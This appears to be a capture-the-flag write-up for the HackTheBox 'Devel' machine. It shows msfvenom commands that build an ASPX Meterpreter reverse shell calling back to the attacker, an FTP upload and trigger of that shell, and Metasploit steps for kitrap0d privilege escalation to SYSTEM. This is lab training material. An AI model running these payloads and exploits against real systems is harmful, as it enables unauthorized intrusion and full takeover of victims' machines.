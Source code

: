 ```yaml
---
title: 'HackTheBox - Devel'
date: '2021-10-05 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5".

 We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![ftp-connect](/assets/img/devel/ftp-in.png)

The snippet we need to generate our malicious file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![msfvenom-cheatsheet](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your ```tun0``` IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work.

Make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![venom-snippet](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. This is what our malicious file will connect back to once we have uploaded it to the FTP server and triggered it via a browser.

![setup-listener](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our ```tun0``` network interface. We enter ```run``` to start the listener.

![run-listener](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![ftp-connect](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```. You can use the ```ls``` command to list out the files on the FTP server to confirm the ```ex.apsx``` has uploaded.

![upload-executable](/assets/img/devel/put-ex.png)

To execute the file we navigate to the url of the web server and append the file name ```http://10.10.10.5/ex.aspx```. This triggers the reverse shell. We return back to the listener session and see wee have a ```meterpreter``` session. However after typing ```getuid``` we see we have low level privilges. We need to escalate our privileges.

![get-user-id](/assets/img/devel/run-getuid.png)

For the moment we background the session.

![background-session](/assets/img/devel/bg-session.png)

In Metasploit we ```search suggester``` for a post module that will escalate our privileges. It returns one post exploit module.

![post-module-suggester](/assets/img/devel/suggester-results.png)

We ```use post/multi/recon/local_exploit_suggester```. Then set the ```options```. We only need to specify the session that we want, that's the session of the reverse shell we have with the FTP server. You can find the session number from when we ran ```background```.

![run-suggester](/assets/img/devel/use-set-run.png)

The suggester returns some possible exploits. In this instance we want to use the ```kitrap0d``` exploit. We ```use exploit/windows/local/ms10_015_kitrap0d```

![suggester-results](/assets/img/devel/suggest-results.png)

We look at the options.

![kitrap0d-exploit](/assets/img/devel/kitra-options.png)

We ```set session 2```, ```set LHOST 10.10.16.3```, and ```set LPORT 4445```. Be sure to use your ```tun0``` IP, as the exploit will have defaulted to your ```eth0``` address. And as we're already using port 4445, we want to use another port.

![set-options](/assets/img/devel/kitra-set.png)

We ```run``` the exploit, type ```getuid```, and see we now have ```AUTHORITY/SYSTEM```. This system has been owned!

![run-exploit](/assets/img/devel/kitra-run.png)

With ```search -f user.txt.txt``` and ```search -f root.txt``` you can locate the flags to fully own the system :)

![locate-flags](/assets/img/devel/locate-flags.png)








